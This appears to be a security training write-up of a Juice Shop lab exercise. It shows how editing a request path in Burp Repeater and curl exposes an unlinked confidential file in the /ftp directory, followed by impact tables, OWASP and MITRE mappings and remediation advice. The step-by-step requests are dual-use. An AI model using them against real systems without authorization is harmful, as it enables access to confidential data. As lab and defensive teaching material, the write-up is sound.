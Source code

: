 
# 🛡️ 03 – Path Traversal Vulnerability: Unauthorized Access to Confidential Documents

## 🔍 Summary

A **path traversal vulnerability** in the OWASP Juice Shop web application allows unauthorized access to internal server files by manipulating URL paths. Exploiting this flaw exposes sensitive corporate documents, including acquisition plans—posing a **critical confidentiality risk**.

> 💣 **Impact**: Unauthorized actors can bypass access controls to retrieve internal business data that could be used for espionage, insider trading, or social engineering campaigns.

---

## ✅ Step-by-Step Exploitation

### 1️⃣ Navigate to the "About Us" Page  
Visited the default route:
```

[http://192.168.0.105:3000/#/about](http://192.168.0.105:3000/#/about)

```
This page includes links to markdown-based legal documents, such as `legal.md`.

---

### 2️⃣ Intercepted the Legal Document Request  
Clicked "Terms of Use" and intercepted the outbound request in **Burp Proxy**:

```

GET /ftp/legal.md HTTP/1.1
Host: 192.168.0.105:3000

```

---

### 3️⃣ Modified Path to Access Hidden File  
Using **Burp Repeater**, replaced the file path with another markdown file:

```

GET /ftp/acquisitions.md HTTP/1.1

```

📌 This file was not referenced in the UI but **resided on the same server path**—a classic directory traversal opportunity.

---

### 4️⃣ Received Confidential Content  
Got a `200 OK` response, with sensitive data exposed:

```

This document contains confidential details about company acquisition plans.

```

> 🔥 This confirmed that the backend accepts arbitrary file paths without validation.

---

### 5️⃣ Validated with Browser or curl  
Opened the same URL in a browser:
```

[http://192.168.0.105:3000/ftp/acquisitions.md](http://192.168.0.105:3000/ftp/acquisitions.md)

````
Or verified via command line:
```bash
curl http://192.168.0.105:3000/ftp/acquisitions.md
````

---

## 📸 Screenshots

<div style="font-family: Arial, sans-serif; max-width: 600px; margin: 20px auto;">

  <h3 style="border-bottom: 2px solid #333; padding-bottom: 8px; margin-bottom: 16px;">Steps & Screenshots</h3>

  <div style="margin-bottom: 20px;">
    <strong style="font-size: 1.1em;">🔗 "About Us" Page</strong><br />
    <img src="./01-about-page-terms-link.png" alt="About Us Page Screenshot" style="max-width: 100%; border: 1px solid #ccc; border-radius: 6px; margin-top: 8px;" />
  </div>

  <div style="margin-bottom: 20px;">
    <strong style="font-size: 1.1em;">🛰️ Burp Proxy Request</strong><br />
    <img src="./02-burp-proxy-legal.md-request.png" alt="Burp Proxy Request Screenshot" style="max-width: 100%; border: 1px solid #ccc; border-radius: 6px; margin-top: 8px;" />
  </div>

  <div style="margin-bottom: 20px;">
    <strong style="font-size: 1.1em;">🧪 Modified Path in Repeater</strong><br />
    <img src="./03-repeater-path-traversal-input.png" alt="Modified Path in Repeater Screenshot" style="max-width: 100%; border: 1px solid #ccc; border-radius: 6px; margin-top: 8px;" />
  </div>

  <div style="margin-bottom: 20px;">
    <strong style="font-size: 1.1em;">✅ Response with Confidential Data</strong><br />
    <img src="./04-repeater-200-ok-aquisitions.png" alt="Response with Confidential Data Screenshot" style="max-width: 100%; border: 1px solid #ccc; border-radius: 6px; margin-top: 8px;" />
  </div>

  <div style="margin-bottom: 20px;">
    <strong style="font-size: 1.1em;">🌐 Browser Verification</strong><br />
    <img src="./05-browser-confirm-success.png" alt="Browser Verification Screenshot" style="max-width: 100%; border: 1px solid #ccc; border-radius: 6px; margin-top: 8px;" />
  </div>

</div>


## 💣 Real-World Impact

| Threat Scenario                 | Business Risk                                                                    |
| ------------------------------- | -------------------------------------------------------------------------------- |
| 📄 Unauthorized Document Access | Access to business strategies, legal contracts, or financial records             |
| 🧑‍💼 Insider Risk Amplified    | Internal-only content like acquisition plans exposed to external attackers       |
| ⚖️ Regulatory Violations        | Breach of privacy, NDAs, and compliance requirements (e.g. GDPR, SOX)            |
| 🎯 Recon for Social Engineering | Attackers can use leaked info to craft targeted phishing or pretexting campaigns |

---

## 🎯 MITRE ATT\&CK Mapping

| ID    | Technique                         |
| ----- | --------------------------------- |
| T1083 | File and Directory Discovery      |
| T1203 | Exploitation for Client Execution |

---

## 🧪 OWASP Top 10 Mapping

| ID       | Category                  |
| -------- | ------------------------- |
| A05:2021 | Security Misconfiguration |
| A01:2021 | Broken Access Control     |

---

## 🔐 Recommendations

| Action                      | Description                                                                       |
| --------------------------- | --------------------------------------------------------------------------------- |
| ✅ Path Sanitization         | Reject or sanitize `../` and other directory traversal characters.                |
| ✅ Input Validation          | Allow only specific filenames from a whitelist (e.g., `legal.md`, `privacy.md`).  |
| 🚫 Access Restrictions      | Deny public access to `/ftp` and similar sensitive directories via server config. |
| 🔍 Logging & Monitoring     | Log all suspicious path access attempts and alert on anomalies.                   |
| 🔒 Use Backend File Mapping | Never expose raw file system paths; use ID-based lookup via secure APIs.          |

---

## 🧠 Lessons Learned

* Never trust user-supplied paths.
* Always validate and sanitize file requests server-side.
* Review server file structures exposed over HTTP.
* Use automated scanners like **OWASP ZAP** or **Nikto** to uncover path traversal flaws.

---

## 📚 References

* [OWASP Directory Traversal Guide](https://owasp.org/www-community/attacks/Path_Traversal)
* [Secure Coding Practices](https://cheatsheetseries.owasp.org/)


